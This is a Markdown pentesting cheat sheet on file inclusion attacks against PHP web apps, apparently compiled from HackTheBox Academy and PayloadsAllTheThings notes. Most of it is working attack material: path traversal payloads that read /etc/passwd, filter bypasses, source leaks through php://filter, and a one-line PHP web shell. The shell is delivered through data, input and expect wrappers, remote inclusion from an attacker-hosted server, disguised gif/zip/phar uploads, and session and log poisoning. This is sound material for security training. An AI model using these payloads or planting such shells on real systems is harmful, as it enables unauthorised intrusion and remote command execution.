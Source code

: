 ## File Inclusion / Local File Inclusion
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://academy.hackthebox.com/module/23/section/252

> Différence entre Local File Inclusion & Path Traversal : https://www.perplexity.ai/search/c-est-quoi-la-difference-entre-IcqEhcTNSQG4xydII.zABA

## Basic LFI / Paf Traversal

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
http://<SERVER_IP>:<PORT>/index.php?language=../../../../../../../../../../../../etc/passwd
http://<SERVER_IP>:<PORT>/index.php?language=..\..\..\C:\Windows\boot.ini
```

### Non-Recursive Path Traversal Filters case
When the application use this kind of function to detect & delete '../'

```php
$language = str_replace('../', '', $_GET['language']);
```
We can bypass it using :
```bash
....//....//....//....//etc/passwd
# URL encode from burp
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

### Approved Paths case
This time, if the application match a string in the URL : 

```bash
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

We can bypass it using : 
```bash
?language=./languages/../../../../etc/passwd
```

### Path Truncation
In earlier versions of PHP, defined strings have a maximum **length of 4096 characters**, likely due to the **limitation of 32-bit systems**. 
If a longer string is passed, it will simply be **truncated**, and **any characters after the maximum length will be ignored**.

```bash
$  echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

### Null Bytes
**PHP versions before 5.5** were vulnerable to **null byte injection**, which means that adding a null byte (**%00**) at the end of the string would terminate the string and not consider anything after it.

```bash
/etc/passwd%00
```

### PHP Filter to leak source code 
https://www.php.net/manual/en/filters.convert.php

```bash
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config

$ echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d

...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```

### LFI to RCE
Check the current configuration of web serveur : (here apache)
```bash
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

``allow_url_include`` -> Not enabled by default

Crafting payload

```bash
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid


-> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Using Input wrapper

```bash
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Using Expect wrapper

```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect

$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Remote File Inclusion (RFI)

| Language | Function/Instruction          | Read Content | Execute | Remote URL |
|----------|------------------------------|:------------:|:-------:|:----------:|
| PHP      | include()/include_once()     |      ✅      |   ✅    |     ✅     |
| PHP      | file_get_contents()          |      ✅      |   ❌    |     ✅     |
| Java     | import                       |      ✅      |   ✅    |     ✅     |
| .NET     | @Html.RemotePartial()        |      ✅      |   ❌    |     ✅     |
| .NET     | include                      |      ✅      |   ✅    |     ✅     |

To exploit RFI, we need to check if allow_url_include is equal to "On"

```html
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Using web server
$ python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) .
# Using FTP server
$ python -m pyftpdlib -p 21
# Using SMB server
$ impacket-smbserver -smb2support share $(pwd)
```

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id'
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id'
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami'
```

### LFI to File Uploads

| Language | Function/Instruction       | Read Content | Execute | Remote URL |
|----------|----------------------------|:------------:|:-------:|:----------:|
| PHP      | include()/include_once()   |      ✅      |   ✅    |     ✅     |
| PHP      | require()/require_once()   |      ✅      |   ✅    |     ❌     |
| NodeJS   | res.render()               |      ✅      |   ✅    |     ❌     |
| Java     | import                     |      ✅      |   ✅    |     ✅     |
| .NET     | include                    |      ✅      |   ✅    |     ✅     |

Gif Payload

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
curl 'http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id'
```

Zip Payload

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
```

Phar Payload

Phar content : 
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
```

### PHP Session Poisoning

| Language | Function/Instruction        | Read Content | Execute | Remote URL |
|----------|----------------------------|:------------:|:-------:|:----------:|
| PHP      | include()/include_once()   |      ✅      |   ✅    |     ✅     |
| PHP      | require()/require_once()   |      ✅      |   ✅    |     ❌     |
| NodeJS   | res.render()               |      ✅      |   ✅    |     ❌     |
| Java     | import                     |      ✅      |   ✅    |     ✅     |
| .NET     | include                    |      ✅      |   ✅    |     ✅     |


When users have a PHPSESSID defined and the application is vulnerable to file inclusion, we can abuse it:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E (<?php system($_GET["cmd"]);?> in URL encode)
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
(Repeat the processus for every command)

### Server Log Poisoning
When the application is vulnerable to LFI and we can display logs inside the web application.

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

```bash
$ echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```
